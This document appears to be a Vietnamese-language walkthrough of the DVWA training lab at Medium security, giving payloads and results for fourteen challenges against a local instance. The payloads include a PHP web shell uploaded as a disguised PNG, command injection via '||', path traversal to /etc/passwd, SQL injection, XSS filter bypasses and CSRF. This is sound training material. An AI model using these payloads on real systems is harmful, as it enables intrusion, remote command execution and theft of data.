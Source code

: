 # DVWA - Security Level: Medium  

## 1. Brute Force
Su dung **BurpSuite** bat goi tin khi thuc hien chuc nang **Login**:  
  
![Brute Force_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Brute%20Force_1.png)  
  
Su dung chuc nang **Intruder**, de tan cong brute force tim kiem mat khau cua tai khoan **admin**  
**Result:**  
O muc do **Medium**, moi lan dang nhap sai se phai doi 2s, viec nay khong chong lai duoc tan cong brute froce nhung co the lam tang thoi gian thuc hien.  
Tai khoan: **admin**  
Mat khau: **password**  
## 2. Command Injection
**Payload**  
```
|| whoami
```
**Result:**  
Chuc nang **Ping a device** da thuc hien loc, loai bo cac ky tu **";" va "&&"**. Nhung bo sot doi voi ky tu **"||"**.  
  
![Command Injection_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Command%20Injection_1.png)
  
## 3. CSRF
**Payload**  
```
<img src="http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=abc123&password_conf=abc123&Change=Change">/img>
```
**Result:**  
Su dung lo hong XSS (Reflected):
  
![CSRF_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/CSRF_1.png)
      
## 4. File Inclusion
**Payload**  
```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=....//....//....//....//....//....//etc/passwd
```
**Result:**  
He thong da thuc hien kiem soat input bang cach loai bo chuoi ky tu **"../"** trong du lieu input, nhung chua loai bo hoan toan:  
  
![File Inclusion_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Inclusion_1.png)  
  
## 5. File Upload
**Payload**  
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
**Result:**  
He thong da chan, chi cho phep upload file JPEG hoac PNG images:  
  
![File Upload_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Upload_1.png)  
  
Su dung Burp Suite bat goi tin khi thuc hien upload file shell.png:  
  
![File Upload_2](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Upload_2.png)  
  
Thay doi ten va noi dung file shell.png:  
  
![File Upload_3](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Upload_3.png)  
  
Upload thanh cong:  
  
![File Upload_4](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Upload_4.png)  
  
## 6. Insecure CAPTCHA
**Payload**:  
  
![Insecure CAPTCHA_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Insecure%20CAPTCHA_1.png)  
  
**Result:**  
Tuong tu nhu voi muc do Low, chi can gui request **step 2** voi **passed_captcha=true**.  
## 7. SQL Injection
**Payload**  
```
1 UNION SELECT user, password FROM users-- -
```
**Result:**  
Su dung **Burp Suite** chan goi tin khi chon **Submit**:  
  
![SQL Injection_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/SQL%20Injection_1.png)  
  
Thay doi gia tri **ID**:  
  
![SQL Injection_2](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/SQL%20Injection_2.png)  
  
## 8. SQL Injection (Blind)
**Payload**  
```
1 AND SLEEP(1)-- -
```
**Result:**  
  
![SQL Injection (Blind)\_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/SQL%20Injection%20(Blind)_1.png)  
  
## 9. Weak Session IDs  
**Result:**  
Khi **Generate**, gia tri **dvwaSession** duoc tao ra moi lan khac nhau:  
  
![Weak Session IDs_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Weak%20Session%20IDs_1.png)  
  
Gia tri **dvwaSession** tuong ung voi gia tri **time stamp** khi duoc tao:  
  
![Weak Session IDs_2](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Weak%20Session%20IDs_2.png)  
  
## 10. XSS (DOM)
**Payload**  
```
>/option></select><img src='x' onerror='alert(1)'>
```
**Result:**  
Tag **<script** bi loai bo, su dung tag **img** kem theo dong cac tag **option, select**:   
  
![XSS (DOM)\_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/XSS%20(DOM)_1.png)  
  
## 11. XSS (Reflected)
**Payload**  
```
<scripT> alert(1) </Script>
```
**Result:**  
  
![XSS (Reflected)\_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/XSS%20(Reflected)_1.png)  
  
## 12. XSS (Stored)
**Payload**  
```
<img src='x' onerror='alert(1)'>
```
**Result:**  
Thay doi thong so **maxlength** cua o input **name**:  
  
![XSS (Stored)\_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/XSS%20(Stored)_1.png)  
  
Chen **payload** vao o input **name**:  
![XSS (Stored)\_2](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/XSS%20(Stored)_2.png)  
  
## 13. CSP Bypass
**Payload**  
Co the chay script tu cac nguon sau:  
```
Content-Security-Policy
	script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';
```
**Result:**  
Upload file **csp.js** bang chuc nang **File Upload**:  
**csp.js**
```  
alert('CSP')
```  
He thong van cho phep chay script tren server voi gia tri **nonce** trung voi gia tri **nonce** trong **Content-Security-Policy**:  
```  
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=" src="../../hackable/uploads/csp.js"></script>  
```  
![CSP Bypass_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/CSP%20Bypass_1.png)  
  
## 14. JavaScript
Tuong tu nhu cap do Low, **token** duoc tao bang script sau:  
```  
function do_something(e) {
    for (var t = "", n = e.length - 1; n >= 0; n--) t += e[n];
    return t
}
setTimeout(function() {
    do_elsesomething("XX")
}, 300);

function do_elsesomething(e) {
    document.getElementById("token").value = do_something(e + document.getElementById("phrase").value + "XX")
}
```  
**Payload**  
```
token=XXsseccusXX&phrase=success&send=Submit
```
**Result:**  
  
![JavaScript_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/JavaScript_1.png) 
  
